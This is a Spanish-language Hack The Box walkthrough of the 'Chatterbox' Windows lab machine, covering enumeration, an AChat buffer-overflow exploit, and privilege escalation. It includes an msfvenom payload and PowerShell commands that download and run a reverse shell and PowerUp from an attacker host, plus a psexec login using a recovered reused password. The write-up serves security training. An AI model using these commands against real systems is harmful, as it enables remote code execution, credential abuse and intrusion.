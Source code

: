 ```yaml
---
layout: single
title: Chatterbox - Hack The Box
excerpt: "Chatterbox es una máquina windows calificada como media, que posee un servicio web Achat a lo cual contiene una vulnerabilidad de ejecución de comandos. Luego de entrar la escalada de privilegios es bastante fácil, contiene una password expuesta por malas configuraciones."
date: 2022-09-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-chatterbox/chatterbox_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - psexec 
  - msfvenom
  - achat web
---
```


![](/assets/images/htb-writeup-chatterbox/chatterbox_logo.png)

Hoy nos enfrentamos contra Chatterbox que es una máquina Windows que ejecuta un cliente de chat web vulnerable a desbordamientos de búfer remotos. Esta vulnerabilidad se aprovechó para obtener una reverse shell en el host y obtener los indicadores de usuario y root debido a permisos débiles o mal configurados.

## Enumeracion

Empezamos con una simple reconocimiento con nmap,al ejecutarlo podemos ver que corre un servicio achat.

```ruby
nmap -sCV -p135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 10.10.10.74
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 16:12 -03
Nmap scan report for 10.10.10.74
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  mon?
9256/tcp  open  unknown
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h07m00s, deviation: 2h18m34s, median: 4h46m59s
| smb2-time: 
|   date: 2022-09-08T00:00:18
|_  start_date: 2022-09-07T23:56:02
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-07T20:00:19-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.47 seconds
```
Buscamos exploit para dicho servicio que mencionamos anteriormente.

![](/assets/images/htb-writeup-chatterbox/exploit.png)

Y vemos un script en python que gracias a un desbordamiento de buffer logra ejecutar comandos. Sacamos el shellcode que contiene el script y procedemos a crear el nuestro :).

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Ejecutamos el script y tenemos una shell.

![](/assets/images/htb-writeup-chatterbox/powershell.png)
## Elevacion de privilegios

Indagamos un rato por el sistema y no encontramos nada, por lo cual se me ocurrió lanzar un script de powersploit llamado PowerUp, dicho script se encarga de buscar malas configuraciones dentro del sistema. Lo ejecutamos y obtenemos esto.

```powershell
S C:\Users\Alfred\Downloads> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')"       

DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
PS C:\Users\Alfred\Downloads> 
```

Probamos si se está reutilizando la password para el usuario administrator, y vemos que sí. Logramos estar como administrator :).

```bash
impacket-psexec 'WORKGROUP/Administrator:Welcome1!@10.10.10.74' cmd.exe

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.74.....
[*] Found writable share ADMIN$
[*] Uploading file UOAxbKbJ.exe
[*] Opening SVCManager on 10.10.10.74.....
[*] Creating service BYQJ on 10.10.10.74.....
[*] Starting service BYQJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```
